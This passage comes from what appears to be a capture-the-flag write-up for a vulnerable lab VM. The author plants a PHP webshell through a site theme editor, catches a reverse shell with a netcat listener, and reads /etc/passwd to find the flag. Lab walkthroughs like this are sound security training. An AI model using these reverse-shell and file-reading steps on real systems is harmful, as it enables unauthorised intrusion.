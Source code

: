 To do that I need to edit the theme in the admin section, and just
paste in the contents. The I need to open a listening `netcat` session and
browse to a non-existant page on the site.

{% highlight console %}
root@kali:/usr/share/webshells/php# nc -lvnp 1337
listening on [any] 1337 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.103] 43875
Linux Freshly 3.13.0-45-generic #74-Ubuntu SMP Tue Jan 13 19:37:48 UTC 2015 i686 i686 i686 GNU/Linux
 19:36:34 up  5:45,  0 users,  load average: 0.08, 0.03, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ cd /etc 
$ cat passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:105::/var/run/dbus:/bin/false
user:x:1000:1000:user,,,:/home/user:/bin/bash
mysql:x:103:111:MySQL Server,,,:/nonexistent:/bin/false
candycane:x:1001:1001::/home/candycane:
# YOU STOLE MY SECRET FILE!
# SECRET = "NOBODY EVER GOES IN, AND NOBODY EVER COMES OUT!"
{% endhighlight %}

I had to poke around the file system a bit to find this, but `/etc/passwd` is 
usually a *go-to* file if you get access to a system. Otherwise I'd still
be looking for the file now :)

So that's one way to do it.

This seems to be the most direct route in. It might be worth exploring the 
vulnerabilities on the plugins, but it's late now, so I'll save that for
another time.
